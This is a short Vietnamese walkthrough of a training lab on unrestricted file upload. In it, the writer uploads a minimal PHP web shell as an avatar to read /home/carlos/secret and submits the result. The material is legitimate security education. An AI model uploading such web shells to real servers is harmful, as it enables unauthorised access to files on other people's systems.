

### Mô tả 
> Lab chứa một chức năng tải lên hình ảnh dễ bị tấn công. Nó không thực hiện bất kỳ xác thực nào đối với các tệp người dùng tải lên trước khi lưu trữ chúng trên hệ thống tệp của máy chủ.
>
>Để giải quyết phòng thí nghiệm, hãy tải lên một web shell PHP cơ bản và sử dụng nó để lọc nội dung của tệp /home/carlos/secret. Gửi bí mật này bằng cách sử dụng nút được cung cấp trong biểu ngữ phòng thí nghiệm.
>
>Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: wiener: peter.
### Giải quyết
- Truy cập `My accout`, sử dụng tài khoản đề cung cấp để đăng nhập.
- Sử dụng chức năng upload avatar để tải lên web shell:
`<?php
echo file_get_contents('/home/carlos/secret');
?>`
> Hàm file_get_contents sẽ đọc nội dung của file thành một chuỗi.
- Sau khi upload thành công, vì là file shell nên trang web không thể hiển thị.Vậy để thực thi lệnh sử dụng trong file shell mình chỉ cần mở file đã upload bằng cách click chuột phải vào phần không thể hiển thị đó và chọn `open image in new tab`.
- Cuối cùng nhập đoạn kí tự nhận được vào phần `Submit solution`
###### Solved!
